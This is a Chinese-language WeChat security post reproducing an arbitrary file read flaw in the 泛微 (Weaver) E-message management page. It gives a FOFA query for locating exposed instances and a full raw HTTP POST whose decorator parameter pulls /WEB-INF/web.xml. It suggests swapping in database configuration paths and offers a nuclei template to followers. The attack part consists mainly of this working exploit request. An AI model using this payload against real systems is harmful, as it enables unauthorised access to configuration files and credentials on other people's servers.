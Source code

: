 #  泛微 E-message 任意文件读取

原创 blkx  [ 天澜实验室 ](javascript:void\(0\);)

**天澜实验室** ![]()

微信号 gh_c5fea27198a7

功能介绍 观水有术，必观其澜！
专注于感知国内外常见系统的漏洞态势，对漏洞进行分析、复现、武器化形成。涵盖漏洞复现、攻防演练、应急响应、工具开发等知识内容。秉承“没有网络安全就没有国家安全”的宗旨，热衷并服务于网络安全事业。

____

___发表于_

收录于合集 #漏洞复现 18个

![]()

**请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习交流使用，如若非法他用，与平台和本文作者无关，需自行负责！**

 **00**

 **漏洞概述**

![]()

泛微 E-message 系统管理页面decorator参数存在任意文件读取漏洞。

 **01**

 **空间搜索语法**

![]()

fofa

title="emessage 管理界面"

![]()

 **02**

 **利用过程**

![]()

登录界面

![]()

decorator参数存在任意文件读取漏洞，可下载系统文件。

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST / HTTP/1.1Host: User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2919.83 Safari/537.36Content-Length: 43Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Connection: closeContent-Type: application/x-www-form-urlencodedUpgrade-Insecure-Requests: 1  
    decorator=%2FWEB-INF%2Fweb.xml&confirm=true

漏洞存在响应包如下，当然也可更换路径为数据库配置文件等下载。  

![]()

 **03**

 **nuclei**

![]()

![]()

获取脚本关注本公众号后发送：泛微E-message1

  

✓

关注我们

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

